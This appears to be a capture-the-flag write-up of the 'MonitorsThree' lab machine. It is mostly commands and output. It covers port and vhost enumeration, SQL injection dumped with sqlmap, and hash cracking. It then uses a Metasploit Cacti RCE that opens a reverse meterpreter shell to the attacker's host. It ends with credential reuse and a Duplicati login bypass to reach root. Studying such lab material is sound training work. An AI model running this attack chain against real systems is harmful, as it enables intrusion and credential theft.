







## Enumeration

```bash
PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNwl884vMmev5jgPEogyyLoyjEHsq+F9DzOCgtCA4P8TH2TQcymOgliq7Yzf7x1tL+i2mJedm2BGMKOv1NXXfN0=
|   256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN5W5QMRdl0vUKFiq9AiP+TVxKIgpRQNyo25qNs248Pa
80/tcp   open     http    syn-ack     nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://monitorsthree.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8084/tcp filtered websnp  no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see 2 ports open, ssh and http so we can head over to http on port 80
==> going there we see a static website with just a login form --> we can then enumerate it further

```bash
gobuster vhost -w /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil-5000.txt -u http://monitorsthree.htb --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://monitorsthree.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: cacti.monitorsthree.htb Status: 302 [Size: 0] [--> /cacti]
Found: m..monitorsthree.htb Status: 400 [Size: 166]
Found: ns2.cl.bellsouth.net..monitorsthree.htb Status: 400 [Size: 166]
Found: ns1.viviotech.net..monitorsthree.htb Status: 400 [Size: 166]
Found: ns2.viviotech.net..monitorsthree.htb Status: 400 [Size: 166]
Found: ns3.cl.bellsouth.net..monitorsthree.htb Status: 400 [Size: 166]
Found: ferrari.fortwayne.com..monitorsthree.htb Status: 400 [Size: 166]
Found: quatro.oweb.com..monitorsthree.htb Status: 400 [Size: 166]
Found: jordan.fortwayne.com..monitorsthree.htb Status: 400 [Size: 166]
Progress: 5000 / 5001 (99.98%)
===============================================================
Finished
===============================================================
```

Using `gobuster`we discover a new subdomain `cacti.monitorsthree.htb`--> going there we are redirected to a login form



Since we are kindof stuck, we can test the other website for SQLi on the `password recovery`--> it seems to be vulnerable!!

==> We can then capture the request and use `sqlmap`to exploit it
## Exploitation
Using sqlmap we find 2 databases 

```bash
sqlmap -r request --batch --dbs

available databases [2]:
[*] information_schema
[*] monitorsthree_db
```

We can then use `sqlmap`again to see the tables and then dump their content

```bash
sqlmap -r request --batch -level 5 --risk 3 --threads 10 -D monitorsthree_db --tables

Database: monitorsthree_db
[6 tables]
+---------------+
| changelog     |
| customers     |
| invoice_tasks |
| invoices      |
| tasks         |
| users         |
+---------------+
```

And we can then dump the content of the `users`table:

```bash
sqlmap -r request --batch -level 5 --risk 3 --threads 10 -D monitorsthree_db -T users --dump

sqlmap -r request --batch -level 5 --risk 3 --threads 10 -D monitorsthree_db -T users -C "username,password" --dump

Database: monitorsthree_db
Table: users
[2 entries]
+-----------+----------------------------------+
| username  | password                         |
+-----------+----------------------------------+
| janderson | 1e68b6eb86b45f6d92f8f292428f77ac |
| admin     | 31a181c8372e3afc59dab863430610e8 |
+-----------+----------------------------------+
```

**IT TAKES A LOT OF TIME** but after a long time we get some hashes and we can crack them using hashcat:

```bash
hashcat -m 0 cacti_hash /usr/share/wordlists/rockyou.txt.gz
```

and we get the credentials for admin: **`admin` - `greencacti2001`**

--> We can use them to log in to `http://cacti.monitorsthree.htb`

==> Looking around we find a metasploit module for this that we can use to get a shell:

```bash
msf6 exploit(multi/http/cacti_package_import_rce) > options                                                                                                   
Module options (exploit/multi/http/cacti_package_import_rce):                                                                                                
   Name       Current Setting          Required  Description                                                                                                 
   ----       ---------------          --------  -----------                                                                                                 
   PASSWORD   greencacti2001           yes       Password to login with                                                                                      
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]                                                
   RHOSTS     10.129.174.107           yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html      
   RPORT      80                       yes       The target port (TCP)                                                                                       
   SSL        false                    no        Negotiate SSL/TLS for outgoing connections                                                                  
   TARGETURI  /cacti                   yes       The base URI of Cacti                                                                                       
   USERNAME   admin                    yes       User to login with                                                                                          
   VHOST      cacti.monitorsthree.htb  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.22      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP
   
msf6 exploit(multi/http/cacti_package_import_rce) > run

[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `admin` and password `greencacti2001`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[*] Sending stage (39927 bytes) to 10.129.174.107
[+] Deleted /var/www/html/cacti/resource/O0IthPpa.php
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.129.174.107:57650) at 2024-08-28 10:28:28 +0200

meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > getuid
Server username: www-data
```

After some exploring, we find this in `/html/cacti/include/config.php`

```sql
$database_type     = 'mysql';                                                    
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```

We now have some credentials **cactiuser - cactiuser** and we can use them to connect to the db

```bash
www-data@monitorsthree:~/html/cacti/include$ mysql -u cactiuser -p
mysql -u cactiuser -p
Enter password: cactiuser

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 7899
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

And we can then find some hashes for some users in the databases

```sql
MariaDB [cacti]> select * from user_auth;
select * from user_auth;
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name     | email_address            | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |     0 | Administrator | marcus@monitorsthree.htb |                      |                 | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   436423766 |
|  3 | guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |     0 | Guest Account | guest@monitorsthree.htb  |                      |                 | on        | on        | on           |                |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |  3774379591 |
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus        | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
```

In there we see 3 hashes for 3 users, admin, guest and `marcus`:

```
admin:$2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G
guest:$2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu
marcus:$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK
```

and we can try to crack them using hashcat

```bash
hashcat -m 3200 monitors_hashes /usr/share/wordlists/rockyou.txt.gz

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
```

so we now have credentials for the user `marcus`: **marcus - 12345678910** and we can use them to connect as `marcus` and get the user flag:

```bash
www-data@monitorsthree:~/html/cacti/include$ su - marcus
su - marcus
Password: 12345678910

marcus@monitorsthree:~$ ls
ls
user.txt
marcus@monitorsthree:~$ cat user.txt 
cat uer.txt
cat: uer.txt: No such file or directory
marcus@monitorsthree:~$ cat user.txt
cat user.txt
161a6778211e6733d45c439d25d0331a
```
## Privilege escalation

Checking the ports running locally on the machine, we notice port 8200 is 

```bash
marcus@monitorsthree:~$ ss -lntp
ss -lntp
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*          
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*          
LISTEN 0      4096       127.0.0.1:8200       0.0.0.0:*          
LISTEN 0      4096       127.0.0.1:44309      0.0.0.0:*          
LISTEN 0      70         127.0.0.1:3306       0.0.0.0:*          
LISTEN 0      500          0.0.0.0:8084       0.0.0.0:*          
LISTEN 0      511             [::]:80            [::]:*          
LISTEN 0      128             [::]:22            [::]:*
```

We can then copy `marcus' ssh key`and ssh as him with local port forwarding

```bash
ssh -i marcus_id_rsa -L 8200:127.0.0.1:8200 marcus@10.129.174.107
```

And we can now access port 8200 which seems to be a login platform for a `Duplicati`instance --> we can use [this article](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) to help us  (password is ``MonitorsThreeDuplicatiBackupPassword2024``)

Once we are logged in using the bypass and burp, we can make a new backup to try and gain root shell --> here are the steps:

First we need to generate an ssh-key pair and save it to `marcus'`home

```bash
ssh-keygen -t rsa -b 4096 -f monitors
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in monitors
Your public key has been saved in monitors.pub
The key fingerprint is:
SHA256:vUNoy5OT0p1QzD3yOfEgKthaFtSY7O6GIi/vS2vtmHY flavien@flavien
The key's randomart image is:
+---[RSA 4096]----+
|     ..+         |
|     .+ .o .     |
|     ..   * =    |
|     o.. = + *   |
|    ..= S o + .  |
|     +.= B o .   |
|  ...o. O =      |
|o.++E o. o .     |
| OO=..           |
+----[SHA256]-----+ 
```

then we can use the `Duplicati` instance to get root privileges













and then we can simply ssh as root to the box and get the flag:

```bash
ssh -i monitors root@10.129.174.107
```